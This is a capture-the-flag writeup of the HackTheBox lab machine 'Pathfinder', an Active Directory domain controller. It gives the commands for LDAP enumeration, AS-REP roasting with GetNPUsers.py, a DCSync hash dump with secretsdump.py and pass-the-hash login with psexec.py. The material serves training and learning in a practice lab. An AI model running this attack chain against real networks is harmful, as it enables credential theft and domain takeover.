# HackTheBox - Pathfinder Writeup


## Enumeration

- scan top 1000 ports

```bash
nmap -sC -sV -oN nmap/initial 10.10.10.30
```
- the result

```sql
# Nmap 7.91 scan initiated Sat Jul 10 02:31:44 2021 as: nmap -sC -sV -oN nmap/initial 10.10.10.30
Nmap scan report for 10.10.10.30
Host is up (0.34s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-10 01:40:02Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h07m25s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-10T01:40:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 10 02:33:21 2021 -- 1 IP address (1 host up) scanned in 96.82 seconds
```

- scan all ports

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.30
```
- the result

```sql
# Nmap 7.91 scan initiated Tue Jul 13 07:49:25 2021 as: nmap -sC -sV -p- -oN nmap/all_ports megacorp.local
Nmap scan report for megacorp.local (10.10.10.30)
Host is up (0.34s latency).
rDNS record for 10.10.10.30: MEGACORP.LOCAL
Not shown: 65511 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-13 07:24:15Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h07m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-13T07:25:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 13 08:17:58 2021 -- 1 IP address (1 host up) scanned in 1712.57 seconds
```

### Open Ports
- Well, that's a lot of open port
- with quick scan. Looks like this is `Domain Controller`

### Hosts
- First, I'm gonna add `MEGACORP.LOCAL` into `/etc/hosts` file



## LDAP


The `Lightweight Directory Access Protocol` is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over an Internet Protocol network.


### LDAPsearch
- Enumerate LDAP (Lightweight Directory Access Protocol)   
- By using the tool called `ldapsearch`

### LDAP QUERY \[ldapsearch\]
- Let's query this LDAP by using `ldapsearch`
- By using this command
- Source
	-  [Ippsec - Enumerating LDAP with LDAPSEARCH](https://youtube.com/watch?v=mr-fsVLoQGw&t=525)

```bash
ldapsearch -x -h megacorp.local -s base namingcontexts
```

- the result



### LDAP DUMP \[ldapsearch\]
- Let's dump all with this command
- Source
	- [Ippsec - Playing with LDAP Again (with the Amanda Creds)](https://youtube.com/watch?v=YVhlfUvsqYc&t=2115)
	- [devconnected - How To Search LDAP using ldapsearch](https://devconnected.com/how-to-search-ldap-using-ldapsearch-examples/)

```bash
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local"
```
- the result


- well, the operation was error
- lucky for me. I've got `sandra` credentials from previous box shield
- let's try bind it with those creds

```bash
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local" -D 'sandra@megacorp.local' -w 'where_you_put_the_password_in'
```

- the result



- the output pretty much crazy and crazy
- above was the snippet of it ;)
- so, I'm gonna save it in file called `ldump_all`

### LDAP DUMP  USER \[ldapsearch\]
- Let's dump all the user and save it in file called `ldump_users`
- Source
	- [ATLANSSIAN - How to write LDAP search filters](https://confluence.atlassian.com/kb/how-to-write-ldap-search-filters-792496933.html)


```bash
ldapsearch -x -h megacorp.local -b "dc=megacorp,dc=local" -D 'sandra@megacorp.local' -w 'where_you_put_the_password_in' "(&(objectClass=person)(objectClass=user))"
```

- the result

```bash
# extended LDIF
#
# LDAPv3
# base <dc=megacorp,dc=local> with scope subtree
# filter: (&(objectClass=person)(objectClass=user))
# requesting: ALL
#

# Administrator, Users, MEGACORP.LOCAL
dn: CN=Administrator,CN=Users,DC=MEGACORP,DC=LOCAL
objectClass: top
objectClass: person

--[[SNIP]]--

# search reference
ref: ldap://ForestDnsZones.MEGACORP.LOCAL/DC=ForestDnsZones,DC=MEGACORP,DC=LOC
 AL

# search reference
ref: ldap://DomainDnsZones.MEGACORP.LOCAL/DC=DomainDnsZones,DC=MEGACORP,DC=LOC
 AL

# search reference
ref: ldap://MEGACORP.LOCAL/CN=Configuration,DC=MEGACORP,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 10
# numEntries: 6
# numReferences: 3
```

- Finally, we've got all the users



- Well, I can't find anything usefull
- So, I went to the internet for searching tool for dumping user from `LDAP`
- Finally, I found one that can work

### LDAP DUMP   \[ldapdomaindump\]

- Let's dump all the user
- Before, I run the command. I'm gonna make a folder real quick called `ldap_dumps`
- Source
	- [Github - ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)


```bash
ldapdomaindump -u megacorp\\sandra -p put_the_passwd_in -o ldap_dumps 10.10.10.30
```



- the command above is dumping all in folder called `ldap_dumps`
- the result, we've got a lot of file 
- let's take a look at 	`domain_users.html`



## Kerberos

`Kerberos` (/ˈkɜːrbərɒs/) is a computer-network authentication protocol that works on the basis of tickets to allow nodes communicating over a non-secure network to prove their identity to one another in a secure manner. </br>
The protocol was named after the character Kerberos (or Cerberus) from Greek mythology, the ferocious three-headed guard dog of Hades.


- Source
  - [Wikipedia - Kerberos(protocol)](https://en.wikipedia.org/wiki/Kerberos_(protocol))

### Kerberos - [DONT_REQ_PREAUTH]
- Source
  - [Kerberos - Pentest Book](https://pentestbook.six2dez.com/post-exploitation/windows/ad/kerberos-attacks)
  - [hacking articles - Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

### Impacket [GetNPUsers.py]

This script will attempt to list and get TGTs for those users that have the property `Do not require Kerberos preauthentication` set (UF_DONT_REQUIRE_PREAUTH).



- `svc_bes`  user have very unique flags that state `DONT_REQ_PREAUTH`
- with those flags. I'm gonna use this impacket tool called `GetNPUsers.py`
- the output will save in file called `svc_bes.hash` in John-The-Ripper[JtR] format.

```bash
GetNPUsers.py megacorp.local/svc_bes -no-pass -request -format john > svc_bes.hash
```

### John-The-Ripper
- Use `JtR` for cracking the file
- the result




- Now, We've got the `svc_bes` user password

## Foothold/Gaining Access

## Evil-Winrm
- Nmap scan show us `winrm` port is open [port 5985]
- Source
  - [Tyler Muir - Default WinRm Ports and How to Change Them](https://adamtheautomator.com/winrm-port/)
- Let's try connect into this machine with those creds
- By using `Evil-winrm`
- Source
  - [Github - evil-winrm](https://github.com/Hackplayers/evil-winrm)

```bash
evil-winrm -i 10.10.10.30 -u svc_bes -p put_the_password_here
```


### User Flag



## Privilege Escalation

## DCSync Attack

`DCSync` is a credential dumping technique that can lead to the compromise of individual user credentials, and more seriously as a prelude to the creation of a [Golden Ticket](https://attack.stealthbits.com/how-golden-ticket-attack-works), as `DCSync` can be used to compromise the `krbtgt` account’s password.


- Source
	- [StealthBits - privilege-escalation-using-mimikatz-dcsync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync)
	- [Hacking Articles - Credential Dumping: DCSync Attack](https://www.hackingarticles.in/credential-dumping-dcsync-attack/)
	- [Pentestlab - Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

### Impacket [SecretsDump.py]

Performs various techniques to dump hashes from the remote machine without executing any agent there.


- Source
	- [Ippsec - Running SecretsDump with svc_loanmgr to perform a DCSYNC](https://youtube.com/watch?v=uLNpR3AnE-Y&t=2140)
- I'm gonna run `secretsdump.py` with this command

```bash
secretsdump.py megacorp.local/svc_bes:password_here@10.10.10.30
```

- the result



- We manage to dump all the users hash
- The most important hash is the `Administrator hash`
- <font color="yellow">Do we crack it?</font>
	- Actually... We can login as `Administrator` by using `password hashes`

- By using another `Impacket` script called `psexec.py`


### Impacket [psexec.py]

`PSEXEC` like functionality example using RemComSvc, with the help of python script we can use this module for connecting host machine remotely.


- Source
	- [IppSec - Performing a Pass The Hash with the administrator user using PSExec](https://youtube.com/watch?v=uLNpR3AnE-Y&t=2265)
	- [IppSec - Performing SecretsDump to perform a DCSync and extract 	hashes, then PSEXEC with Administrator to gain access](https://youtube.com/watch?v=H9FcE_FMZio&t=3750)
	- [Hacking Articles - Remote Code Execution Using Impacket](https://www.hackingarticles.in/remote-code-execution-using-impacket/)
	- [InfosecMatter - RCE on Windows from Linux Part 1: Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- I will run this command

```bash
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d5xxxxxxxxxxxxxxxxx
```

- the result



### Admin flag


## Conclusion
I've learned a lot today. I'm new to the `AD/Domain Controller Hacks` or whatever you want to call it `:)`. This machine is so fun and I've gained a lot of knowledge about it.  Do not rely on one tool only. You need to explore and find another tool and understanding it. Lastly, it is important to configure the user correctly and securely. Before I forgot, again do not put any credentials on the non-secure machine. Even tho it's happened, quickly change the password.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
